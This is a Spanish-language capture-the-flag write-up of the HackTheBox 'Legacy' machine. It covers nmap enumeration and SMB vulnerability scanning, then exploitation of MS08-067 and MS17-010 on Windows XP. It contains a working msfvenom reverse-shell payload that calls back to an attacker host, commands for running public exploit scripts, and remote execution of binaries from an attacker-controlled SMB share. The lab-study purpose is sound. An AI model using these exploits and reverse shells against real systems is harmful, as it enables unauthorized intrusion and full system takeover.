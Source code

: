 ```yaml
---
layout: single
title: HackTheBox - Máquina Legacy
excerpt: "Solución de la máquina Legacy de Hack the Box"
date: 2021-03-21
classes: wide
header:
  teaser: /assets/images/htb/legacy/legacy.png
  teaser_home_page: true
tags:
  - Htb
  - Pentesting
  - Windows
---
```


<p align="center">
<img src="/assets/images/htb/legacy/legacy.png">
</p>

# Enumeración

Lanzamos un escaneo de todos los puertos con el estado open para ver que servicios hay corriendo.

```bash
nmap -p- --open -sS --min-rate=5000 -T5 -n -Pn -vvv 10.10.10.4 -oG allPorts
```

Después, lanzamos otro escaneo para obtener versiones.

```bash
nmap -sC -sV -p139,445 10.10.10.4 -oN targeted
```

El resultado que obtenemos es el siguiente:

```text
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
```


# Explotación

Vamos a lanzar la búsqueda de vulnerabilidades sobre los servicios de samba.

```bash
nmap --script smb-vuln* -p139,445 -Pn 10.10.10.4
```

Y obtenemos lo siguiente:

```text
Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14

```

## MS08-067

Nos descargamos el [exploit de github](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py), generamos un shellcode y editamos el script:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip_atacante> LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

Tuve que hacer algunos cambios para que funcionara con python 3 como los print y la excepción del import, por último lo lanzamos y obtenemos la reverse shell.

```bash
python3 ms08-067.py 10.10.10.4 6 445
```

Al intentar hacer un whoami para ver el usuario que tenemos nos da un error, por lo que nos vamos a compartir los binarios de windows (mediante smbserver en impacket) y lo vamos a lanzar a través de la carpeta compartida:

```bash
python3 smbserver.py <nombre_recurso> /usr/share/windows-binaries
```

Y desde la consola de la máquina víctima lanzamos el whoami:

```bash
\\<ip_atacante>\<recurso_compartido>\whoami.exe
```

Y obtenemos el siguiente usuario:

```bash
C:\WINDOWS\system32>\\XX.XX.XX.X\shared\whoami.exe
\\XX.XX.XX.X\shared\whoami.exe
NT AUTHORITY\SYSTEM
```

## MS17-010

He probado otros scripts e intentado hacerlos funcionar pero me daba error de NETBIOS time out, hasta que he dado con [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

Ejecutamos zzz_exploit.py y obtenemos una shell.

```bash
python3 zzz_exploit.py 10.10.10.4
```